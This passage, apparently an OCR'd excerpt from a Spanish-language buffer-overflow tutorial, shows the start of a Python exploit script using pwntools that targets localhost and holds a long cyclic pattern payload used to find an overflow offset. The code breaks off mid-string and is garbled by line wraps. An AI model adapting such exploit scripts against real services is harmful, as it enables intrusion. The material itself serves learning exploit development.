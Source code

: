esto lo podemos copiar y ponerlo en nuestro exploit.

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7A
    e8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak
    0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
    Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4A
    u5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az
    7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9
    Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1B
    k2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp
    4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6
    Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8B
    z9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf
    1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3
    Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5C
    p6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu
    8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0
    Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D
    f3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk
    5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7
    Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9D
    v0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea
    2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4
    Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6E
    k7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep
```